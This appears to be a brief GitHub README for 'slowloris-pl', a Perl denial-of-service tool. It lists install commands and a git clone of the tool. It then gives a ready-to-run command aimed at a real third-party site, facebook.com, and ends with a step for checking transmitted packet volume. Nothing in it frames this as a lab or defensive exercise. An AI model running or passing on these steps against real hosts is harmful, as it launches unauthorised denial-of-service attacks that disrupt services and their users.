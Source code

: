 
## slowloris-pl

### Step 1 ( installation )

```shell

# requirement

sudo apt-get update  

sudo apt-get install perl

sudo apt-get install libwww-mechanize-shell-perl

sudo apt-get install perl-mechanize

# cloning the project from github

git clone https://github.com/GHubgenius/slowloris.pl.git

cd slowloris.pl

```

## Step 2 ( run the program )

```shell

perl slowloris.pl -dns facebook.com

```

### Step 3 ( check total size of the packet )

```shell

# check the TX package size

ifcocnfig

```